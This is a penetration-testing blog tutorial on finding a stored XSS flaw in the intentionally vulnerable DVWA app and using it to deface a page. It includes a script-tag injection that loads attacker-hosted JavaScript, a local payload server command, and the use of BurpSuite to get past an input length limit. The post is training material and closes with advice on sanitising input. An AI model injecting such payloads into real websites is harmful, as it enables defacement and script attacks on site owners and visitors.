 ```yaml
---
title: How a Hacker Can Deface a Website 1
date: 2024-06-20 12:00:00 -500
categories: [blog, tutorial, Web Penetration Testing]
tags: [cyber, security, exploits, web]
image: /pictures/website_deface/hacker.jpg
---
```




This is the first post in a tutorial series that will help showcase how trivial it can be for a hacker to exploit public-facing web applications. Throughout this series, I will lay out my thought process with hopes that it will not only be beneficial for the reader of this blog, but also for myself as I continue to learn.


All websites and applications used in these tutorials are intentionally vulnerable applications where I have permission to exploit them to my hearts' desire. Do not repeat any of the things I discuss unless you **HAVE PERMISSION**. I am not responsible for any legal issues that you may get into if you do not go about this **ethically**.




# Objectives


My objectives are the following....


- Find and exploit a simple Stored Cross-Site Script (XSS) vulnerability
- Use XSS vulnerability to run script that changes elements in web page








The vulnerable application I am testing today is the [Damn Vulnerable Web Application (DVWA)](https://github.com/digininja/DVWA). DVWA is a PHP/MySQL web application that is very vulnerable. It is a good application to get practice with as many applications in 2024 still utilize PHP and some form of a database in their stack. Instructions for how to set up the application can be found [here](https://www.youtube.com/watch?v=WkyDxNJkgQ4).


For this tutorial, we will be setting our security level to **LOW**. This is important!


# Objective 1: Find and exploit simple XXS


## Methodology


![Beginning Page](/pictures/website_deface/page.PNG)


In the beginning of any pentest we should get familiar with our target. Being that we want to specifically test for XSS, we should start thinking of ways to input a script into the app. Without getting too fancy, the first thing we can test is to see if the application will accept our text modifications. Let's add bold text in our field and see what happens. If you don't already know, we can do this by including our text in
"bold" tags like this...


```html
<b> Test Text </b>
```


![Test Input](/pictures/website_deface/input.PNG)


![Result of Test Input](/pictures/website_deface/result.PNG)


The results from our input seem very promising. The webpage accepted our text modifications! This means that we found a simple XSS. This must imply that we can run a more malicious script other than bolding text should it not? Let's find out. In the meantime we can mark this objective as complete. ✅


# Objective 2: Use XSS to change (DEFACE) website


## Disclaimer
For this goal, it would help to have basic prior knowledge of how web pages are built. We utilize the programming languages HTML, CSS, and Javascript to essentially create our web application, style it, and give its functionality.


Specifically with Javascript, we are able to change out elements in a .html file that we don't even have to access directly.


For the sake of time, I won't go into details on the logic behind this payload creation, but you are welcome to copy it and study it so that you can understand why I decided to use these specific commands.




## Methodology


Before further testing the web application, it is important to build and host a payload that we can call upon in the vulnerable web application. This process is simple.


On my system, I have a directory specifically for payloads. Create a similar directory for yourself and create a "script.js" file inside of it. Also choose an arbitrary image to use in your payload.


![show directory here](/pictures/website_deface/directory-listing.PNG)


After that it is done, get your favorite text editor and add the following lines of code..


![Payload Here](/pictures/website_deface/payload.PNG)


This code should serve as our malicious script that will ultimately deface our target website. It is important to serve this script so that we are able to access it in the web application. This can be done by running the following command in our payload directory...


```bash
python -m http.server 8000
```


This command starts a webserver on port 8000 that we can travel to and access our script. To ensure that the server is up and running correctly, travel to "localhost:8000" in your browser and we should see the files we've created/uploaded.




![directory listing](/pictures/website_deface/directory-listing.PNG)


Once we have confirmed our web server is running, we can begin constructing our input to call our script.


Normally, this can be done by utilizing a script tag to alert ourselves if the script is running. If the malicious script succeeds in being run by the browser the website should be defaced. Here's our custom input...


```js
<script src="localhost:8000/script.js">alert(1);</script>


```
Attempting to insert this into the input field we see that there seems to be a character limit, which doesn't allow us to insert our custom input. What should we do next?


It is important to stay persistent when pentesting as you may have to sometimes think outside the box to achieve your goal. One idea I had when coming across this obstacle was to utilize something that would allow me to send my own requests to the application without being bounded by a character limit. Luckily there is a program called [BurpSuite](https://portswigger.net/burp) that allows me to do just that.


Once again, I won't go into details of how to set up a BurpSuite proxy to send requests to the web application (This can be shown in another tutorial). For the purpose of this tutorial I will only show how it can be utilized to send requests to our webpage.


After setting things up properly we can directly submit a request to the input field. This is what it looks like in practice.




As you can see, the highlighted message field is where we build our custom message to send the application. This is the custom input we attempted previously, just with the special characters encoded.


After sending the request, confirm that it was successful by looking at the response sent from the web application. If you received a *200 OK*, then you should be in the clear. Let's travel back to our site to see if anything happened.


![PWNED](/pictures/website_deface/pwned.PNG)


**Boom!**


Traveling back to our site we see that we were able to successfully deface it! Now anytime a user happens to travel to the page shown above, they will be greeted with our custom payload. Looks like this objective is complete. ✅






# Key Takeaways


As you can see, it is quite trivial to deface a website that has low to no security. Some key takeaways from this tutorial are...


1. *ALWAYS* sanitize user input no matter what.
2. Test any web application you create for basic vulnerabilities such as these.
3. For security researchers, stay persistent and don't give up. Finding bugs gets easier over time.




Keep hacking 💯











